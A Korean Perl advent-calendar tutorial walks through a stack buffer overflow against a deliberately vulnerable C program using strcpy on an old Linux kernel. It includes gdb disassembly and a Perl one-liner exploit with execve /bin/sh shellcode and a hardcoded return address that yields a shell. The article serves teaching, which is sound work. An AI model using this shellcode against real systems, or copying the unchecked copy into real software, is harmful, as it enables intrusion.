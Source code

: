 Title:    익스플로잇과 펄
Package:  Seoul.pm
Category: perl
Category: Seoul.pm
Author:   h00ray

저자
-----

@h00ray - 시험기간에 공부 안하고 프로그래밍 하는 잉여잉여한 학생, javaapi86 _at_ gmail.com


시작하며
--------
2014년 들어서 리눅스 환경에서 굵직한 취약점이 발표되고있습니다.

예를들면 
bash shell shock
open ssl heart bleed 
etc...

물론 이번 달력에서 다룰 내용은 위에 나열한 취약점과는 거리가있습니다만...
그래도 단지 재미를 위해 그리고 리눅스 환경에서의 해킹을 조금이라도 맛 보기(?)위해 메모리 버그의 일종인 bof(BufferOverflow) 즉 버퍼오버플로우라는 기술을 이용해서 리눅스 해킹을 해보도록하겠습니다.

예제

우선 공격할 리눅스 정보입니다.

$uname -a
Linux localhost.localdomain 2.2.14-5.0 #1 Tue Mar 7 21:07:39 EST 2000 i686 unknown

버전이 매우 낮다는걸 알수있는데 사실 일부로 낮은 버전을 선택했습니다.
현재 최신 리눅스 커널은 해커들의 공격을 막기위해 많은 보호기법을 도입하고있는데 
그 예로는 
공격프로그램(exploit)이 스택이나 힙에서 실행되지 않도록하는 Nx-bit
메모리상의 공격을 방어하기위해 스택 주소를 랜덤하게 바꾸는 ASLR
상위주소를 \x00 값으로시작하게하는 즉 NULL처리를 시켜서 공격이 불가능하도록 하는 Ascii-armor
buffer와 return address에 사이의 임의의 값이 변하면 프로그램을 종료시켜버리는 Canary
Canary에 대해 더 설명을 하자면 해킹에 성공하기위해서는 eip를 제어해야하는데 eip를 제어할려면 return address를 덮어 씌어야합니다.
하지만 canary라는 보호기법이 return address를 모니터링하면서 값이 변하면 프로그램을 종료시켜 버리기때문에 한번에 공격할수있는 확률이 줄어들고 난이도도 올라가게됩니다.
 

이처럼 다양한 보호기법이 적용되면서 공격이 힘들지만 우회하는 방법이있습니다.
ROP(Return Oriented Programming)라는 공격기법입니다. 
이런 무지막지한 보호기법을 우회하려다 보니 매우 복잡하고 어렵다보니 이 달력에서는 설명하지않겠습니다.
rop에 관한 자세한 내용은 아래 링크를 참조해주세요.
http://teamcrak.tistory.com/332

그럼 지금부터 메모리 보호기법이 적용되어있지않은 리눅스 커널을 대상으로 간단한 해킹을 해보도록 하겠습니다.

공격할 프로그램입니다.
//vuln.c
//gcc -o vuln vuln.c
#include <stdio.h>

int main(int argc, char *argv[])
{
    char buffer[256];
    strcpy(buffer, argv[1]);
    printf("%s\n", buffer);
}

해킹에 성공하기 위해서는 "프로그램 구조를 개발자보다 잘 알아야 한다"라는 말이 있을정도로 
프로그램의 구조를 완벽하게 이해하고 있어야합니다.
그렇다면 이제 분석을 하기위해 gdb를 실행 해봅시다.
$gdb vuln 

(gdb) disass main
Dump of assembler code for function main:
0x80483f8 <main>:	push   %ebp
0x80483f9 <main+1>:	mov    %esp,%ebp
0x80483fb <main+3>:	sub    $0x100,%esp
0x8048401 <main+9>:	mov    0xc(%ebp),%eax
0x8048404 <main+12>:	add    $0x4,%eax
0x8048407 <main+15>:	mov    (%eax),%edx
0x8048409 <main+17>:	push   %edx
0x804840a <main+18>:	lea    0xffffff00(%ebp),%eax
0x8048410 <main+24>:	push   %eax
0x8048411 <main+25>:	call   0x8048340 <strcpy>
0x8048416 <main+30>:	add    $0x8,%esp
0x8048419 <main+33>:	lea    0xffffff00(%ebp),%eax
0x804841f <main+39>:	push   %eax
0x8048420 <main+40>:	push   $0x8048480
0x8048425 <main+45>:	call   0x8048330 <printf>
0x804842a <main+50>:	add    $0x8,%esp
0x804842d <main+53>:	leave  
0x804842e <main+54>:	ret    
0x804842f <main+55>:	nop    
End of assembler dump.

대충 봐도 현기증을 유발하는 디어셈블된 코드이지만 우리가 봐야 할 부분은 strcpy함수를 call하는부분 입니다.
0x8048411 <main+25>:	call   0x8048340 <strcpy> 여기만 주의 깊게 봐주면 됩니다!!!!

그렇다면 보기전에 간단하게 우선 strcpy함수를 알아봅시다.
strcpy(buffer, argv[1]);
argv[1]의 값을 buffer에 복사합니다.
네 끝이에요 한 마디로 
eax에는 buffer의 값 256byte
edx에는 argv[1]의 값이 들어가있습니다.

어셈블리 코드를 보면 edx(argv[1]) 값을 push 그후 eax(buffer)를 스택에push
strcpy(%eax,%edx); 이런식으로 들어가있는겁니다.
근데 과연 생각한게 맞는지 초호화 디버깅툴인 gdb를 사용해서 확인해보도록 하겠습니다.
디버깅을 할때 항상 그랬던 것 처럼 break point를 걸어줍니다.

(gdb) b *main+25
(gdb) r 1
Starting program: /home/vuln 1

Breakpoint 1, 0x8048411 in main ()
(gdb) x/s $edx
0xbffffca0:	 "1"

main+25에 break point를 걸었고 그후 인자를 1을 주고 실행해본결과 edx에는 역시 예상했던데로 1이라는 값이 들어가있습니다.
이제 0xffffff00이 뭘 뜻하는건지 알아야겠습니다. 16진수이므로 사람이 알아볼수있게 10진수로 바꾸면 256byte라는 값이나오네요.
256byte를 buffer가 사용하고있으니 256byte +4는 ret주소입니다.

$./vuln `perl -e 'print"A"x260'`
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Segmentation fault (core dumped)

perl 스크립트를 사용해서 공격해봤습니다..(펄 달력인데 이제서야 펄이나오네요..ㅜㅜ)
공격 해보니 역시 ret값을 덮어쓰니 오류를 출력하면서 프로그램이 종료되네요.
자 이제 exploit script만 작성해주면 끝입니다.


$./vuln `perl -e 'print "\x90"x125 , "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80","\x90"x110,"\x38\xf9\xff\xbf"'`
1?h//shh/bin??°
                ?8
bash$
네 공격에 성공했습니다 ;)
이제 exploit을 살펴보자면 "\x90"은 nop입니다. 그냥 아무것도 안하고 다음 명령어로 넘어갑니다.
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80" 이 부분은 쉘코드입니다. 간단하게 shell을 출력해주는 기계어 집합입니다.
"\x38\xf9\xff\xbf" 이 부분은 스택의 값인데요. gdb를 통해서 본 스택 주소를 넣어주었습니다.

마치면서
크리스마스 펄 달력이라는 내용과 맞게 펄에대한 팁이나 재미있는 내용을 주제로 선정했어야하는데... 평소에 해킹을 펄로 하다보니 글을 쓸수있는 주제가 한정되어 많이 아쉽네요.
그래도 이렇게 기회를 주신 여러 관계자분들께 감사하다는 인사를 보내면서 즐겁게 모두 한 해를 마무리하셨으면 좋겠습니다.
아 그리고 읽어주셔서 감사합니다!!
